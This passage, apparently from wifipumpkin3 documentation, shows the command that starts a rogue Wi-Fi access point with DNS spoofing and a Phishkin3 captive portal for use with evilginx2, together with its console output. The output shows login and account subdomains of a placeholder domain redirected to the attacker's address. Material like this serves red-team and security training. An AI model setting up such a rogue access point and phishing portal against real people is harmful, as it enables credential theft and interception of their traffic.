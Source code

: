 With everything previously configured, we will execute the two tools following this scheme: First, we run wp3 using the evilginx2_config.pulp script, and then, after the AP is created, we run evilginx2.

```s
λ mh4x0f [~/scripts] $ sudo wp3 -p evilnix_config.pulp               

  _      ___ _____     ___                  __    _      ____
 | | /| / (_) __(_)___/ _ \__ ____ _  ___  / /__ (_)__  |_  /
 | |/ |/ / / _// /___/ ___/ // /  ' \/ _ \/  '_// / _ \_/_ < 
 |__/|__/_/_/ /_/   /_/   \_,_/_/_/_/ .__/_/\_\/_/_//_/____/ 
                                   /_/                       
                                            codename: Gao
by: @mh4x0f - P0cL4bs Team | version: 1.1.7 main
[*] Session id: 9794816e-eb6c-11ee-a7e5-fd5405389990 

[*] mode: script

[*] plugin: evilnix_config.pulp
===============================


[*] DnsSpoof attack
===================

[*] Redirect to: 172.16.0.1 

[*] Targets:
============

[*] -> [login.yourfakedomain.com] 
[*] -> [account.yourfakedomain.com] 
[*] -> [*.yourfakedomain.com] 
[*] module: dns_spoof running in background
[*] use jobs command displays the status of jobs started
[+] enable forwarding in iptables...
[*] sharing internet connection with NAT...
[*] setting interface for sharing internet: wlp0s20f3 
[*] settings for Phishkin3 portal:
[*] allow FORWARD UDP DNS
[*] allow traffic to Phishkin3 captive portal
[*] block all other traffic in access point
[*] redirecting HTTP traffic to captive portal
[+] starting hostpad pid: [84107]
wp3 > [+] hostapd is running

...

 [  pydns_server  ] 09:30:17  -  11: login.yourfakedomain.com. 300     IN      A       172.16.0.1 
 [  pydns_server  ] 09:30:18  -  12: account.yourfakedomain.com. 300     IN      A       172.16.0.1 
 [  pydns_server  ] 09:30:18  -  13: *.yourfakedomain.com.   300     IN      A       172.16.0.1 
 [  pydns_server  ] 09:30:18  - 13 zone resource records generated from zone file 
 [  phishkin3  ] 09:30:18  - [*] phishkin3 v1.0.2 - subtool from wifipumpkin3
 * Serving Flask app 'wifipumpkin3.plugins.bin.phishkin3'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://172.16.0.1:8080
Press CTRL+C to quit
```

